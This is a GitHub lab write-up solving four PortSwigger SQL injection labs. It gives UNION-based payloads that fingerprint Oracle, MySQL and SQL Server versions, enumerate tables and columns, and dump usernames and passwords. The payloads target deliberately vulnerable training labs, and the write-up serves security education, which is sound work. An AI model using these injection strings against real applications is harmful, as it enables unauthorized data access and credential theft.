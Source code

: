 ## Summary
- [Lab7: SQL injection attack, querying the database type and version on Oracle](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Examining%20the%20database%20in%20SQL%20injection%20attacks#lab7-sql-injection-attack-querying-the-database-type-and-version-on-oracle)
- [Lab8: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Examining%20the%20database%20in%20SQL%20injection%20attacks#lab8-sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft)
- [Lab9: SQL injection attack, listing the database contents on non-Oracle databases](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Examining%20the%20database%20in%20SQL%20injection%20attacks#lab9-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases)
- [Lab10: SQL injection attack, listing the database contents on Oracle](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Examining%20the%20database%20in%20SQL%20injection%20attacks#lab10-sql-injection-attack-listing-the-database-contents-on-oracle)

### Lab7: SQL injection attack, querying the database type and version on Oracle
> 1. **If we will test an oracle database, we must use a `dual` special table during selecting null values because it will get an error if we selected anything even if it was the right thing for a number of columns.** 
> 2. **`dual` table used for evaluating expressions or calling functions.**
- Check out: [oracle-dual-table](https://www.oracletutorial.com/oracle-basics/oracle-dual-table/)
- Check out: [docs.oracle.com/](https://docs.oracle.com/cd/B19306_01/server.102/b14200/queries009.htm)
- We will track our methodology and test in the first the number of columns used in the query of the application:

```
category=' UNION SELECT null,null from dual--
```
- After detecting there are 2 columns, We found a column that has a string data type:

```
category=' UNION SELECT 'test',null from dual--
```
- A simple proof-of-concept test is to extract the version string of the database, which can be done on any DBMS.
- This injected query will achieve that.
```
category=' UNION SELECT banner,null from v$version--
```

![lab7.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab7.png)
- There is another way to extract the version of the oracle database.

```
category=' UNION SELECT version,null from v$instance--
```

![lab7_version.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab7_version.png)

-----------------------------------------------------------------------

### Lab8: SQL injection attack, querying the database type and version on MySQL and Microsoft
> **`Note` In MySQL syntax query you must add the space after the double dash during the comment so I suggest using URL encoding to obfuscate it when you inject your payload with `--` but also you can use `#` to comment.**
 
 - Check out: [Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

- Test the number of columns for `MySQL` or `Microsoft SQL Server` database.
```
category=' UNION SELECT null,null--
category=' UNION SELECT null,null#
```
- Test which one of them is a text column and you will find the 2 columns receive a string value.
```
category=' UNION SELECT 'test','test'-- 
category=' UNION SELECT 'test','test'#
```
- Extract the version in any column of them.
```
category=' UNION SELECT @@version,null--
category=' UNION SELECT @@version,null#
```

![lab8_space.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab8_space.png)

-----------------------------------------------------------------------

### Lab9: SQL injection attack, listing the database contents on non-Oracle databases
- To extract any data from the database, we need to know two essential things:
	1. The name of the table you will return data from.
	2. The name of columns for this table which you will select.
- But how can we do that without knowing them?
	- We can use the `information_schema` database, It is designed to hold database metadata and provide information about the database.
	- It is supported by MS-SQL, MySQL, and many other databases other than `Oracle`.
	- Now we can know the names of the database tables and columns from `information_schema`.

- Here as we used to start with testing the number of columns and their data type.
```
category=' union select null,null from information_schema.tables--
category=' union select 'test','test' from information_schema.tables--
```
- We try to selects the columns from table is called `tables`.
- So in the first, we will try to extract the names of the tables for the database.

```
category=' union select table_name,null from information_schema.tables--
```

![lab9_table_name.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab9_table_name.png)

- We will find an interesting table called `users_(random_characters)`, so now we can try to extract the name of columns from the `columns` table but we will identify the table name which we need to return its columns in the query.
```
category=' union select column_name,null from information_schema.columns where table_name='users_vlfwzh'--
```

![lab9_column_name.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab9_column_name.png)

- The query retrieved two columns, and now the last phase is extracting the data of usernames and passwords from the `users` table.
```
category=' union select username_cluojr, password_fkpkqk from users_vlfwzh--
```

![lab9.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab9.png)

- We got the administrator password, and we can log in with it. 
-----------------------------------------------------------------------

### Lab10: SQL injection attack, listing the database contents on Oracle
- Here we will test the number of columns and their data type by using `dual` table because it is an oracle database, and if you tried to test without this table, you will get an error.

```
category=' union select null,null from dual--
category=' union select 'test','test' from dual--
```
- Oracle doesn’t support the `information_schema` but it provides `all_tables` data dictionary which we can query to list all tables in oracle.

```
category=' union select table_name,null from all_tables--
```

![lab10_table_name.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab10_table_name.png)

- After listing all tables, we will go to list all columns in the `users_(random_characters)` table but we will use the `all_tab_columns` table to retrieve information about columns in the database.

```
category=' union select column_name,null from all_tab_columns where table_name='USERS_ZXHNHP'--
```

![lab10_column_name.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab10_column_name.png)

- Finally, we will extract the data of usernames and passwords.

```
category=' union select USERNAME_EXOKDN, PASSWORD_YEICFS from USERS_ZXHNHP--
```

![lab10.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab10.png)
- Nice, we got the administrator password.

![I got you](https://c.tenor.com/gJto5WLSSVEAAAAC/the-batman-penguin.gif)
